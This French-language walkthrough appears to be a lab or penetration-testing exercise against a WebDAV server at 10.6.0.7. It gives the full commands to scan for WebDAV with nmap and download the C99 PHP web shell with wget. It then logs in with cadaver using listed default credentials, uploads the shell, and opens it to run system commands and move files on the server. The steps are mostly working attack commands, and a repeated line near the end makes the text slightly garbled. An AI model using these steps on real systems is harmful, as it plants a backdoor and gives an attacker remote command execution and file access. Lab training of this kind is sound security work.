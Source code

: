 Vérifier si WebDAV est activé:
Scanner avec Nmap
```bash
nmap -p 80 --script=http-webdav-scan 10.6.0.7
```
Si WebDAV est actif, tu verras :
WebDAV is enabled

Télécharge le C99 PHP Shell avec wget :
```bash
wget https://raw.githubusercontent.com/phpwebshell/c99shell/refs/heads/main/c99.php -O c99.php
```
Cela va enregistrer le fichier c99.php localement.

Utilise Cadaver, un client WebDAV, pour envoyer le shell à la cible.
```bash
cadaver http://10.6.0.7/dav
```
Si le serveur demande un login, essaye :
admin:admin
msfadmin:msfadmin
webdav:webdav

Une fois connecté dans cadaver, tape :
```bash
put c99.php
```
Si l’upload réussit, vérifie avec :
```bash
ls
```

Dans ton navigateur, ouvre :

http://10.6.0.7/dav/c99.php

Cela affichera l’interface de C99 Shell, qui te permet
[(Images/davweb.png)]:
Si WebDAV est actif, tu verras :
D’exécuter des commandes (system, exec, shell_exec)
D’accéder aux fichiers du serveur
D’uploader et télécharger des fichiers